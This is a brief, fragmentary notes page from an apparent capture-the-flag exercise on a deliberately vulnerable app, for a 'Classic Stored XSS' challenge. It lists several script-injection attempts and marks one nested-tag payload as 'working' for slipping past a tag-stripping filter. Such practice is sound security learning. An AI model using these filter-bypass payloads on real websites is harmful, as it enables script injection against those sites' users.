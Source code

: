 ## Classic Stored XSS
### Challenge: Perform an XSS attack with \<script\>alert\(`xss`\)\</script\> on a legacy page within the application.


<script>alert('Hello!')</script>
lert('Hello!')</script>

<script>A<script>Aalert('hello')</script>
alert('hello')</script>


working:
<<a>sscript>alert('Hello!')</script>
